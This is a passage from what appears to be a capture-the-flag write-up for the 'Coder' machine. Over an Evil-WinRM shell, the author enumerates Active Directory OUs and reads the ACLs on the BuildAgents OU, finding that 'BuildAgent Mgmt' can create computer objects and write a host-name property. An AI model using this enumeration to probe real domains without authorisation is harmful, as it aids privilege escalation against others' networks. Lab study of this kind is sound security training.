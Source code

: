     *Evil-WinRM* PS C:\Users\e.black> Get-ADOrganizationalUnit -filter * | select Name

    Name
    ----
    Domain Controllers
    Development
    Groups
    Users
    BuildAgents



Most of those are standard, though Development and BuildAgents are
unique to Coder.

#### BuildAgents

While Bloodhound doesn't show any interesting permissions, it makes
sense that BuildAgent Mgmt would have some permissions over BuildAgents.
I can look for what permissions exist on this OU using PowerShell:



    *Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access
    ...[snip]...



There's a lot there, but I'm particularly interested in the rights from
groups I have control over. BuildAgent Mgmt has some access:



    *Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access | where IdentityReference -eq "coder\PKI Admins"
    *Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access | where IdentityReference -eq "coder\Software Developers"
    *Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access | where IdentityReference -eq "coder\BuildAgent Mgmt"


    ActiveDirectoryRights : CreateChild, DeleteChild
    InheritanceType       : All
    ObjectType            : bf967a86-0de6-11d0-a285-00aa003049e2
    InheritedObjectType   : 00000000-0000-0000-0000-000000000000
    ObjectFlags           : ObjectAceTypePresent
    AccessControlType     : Allow
    IdentityReference     : CODER\BuildAgent Mgmt
    IsInherited           : False
    InheritanceFlags      : ContainerInherit
    PropagationFlags      : None

    ActiveDirectoryRights : Self, ReadProperty, WriteProperty
    InheritanceType       : Descendents
    ObjectType            : 72e39547-7b18-11d1-adef-00c04fd8d5cd
    InheritedObjectType   : bf967a86-0de6-11d0-a285-00aa003049e2
    ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
    AccessControlType     : Allow
    IdentityReference     : CODER\BuildAgent Mgmt
    IsInherited           : False
    InheritanceFlags      : ContainerInherit
    PropagationFlags      : InheritOnly
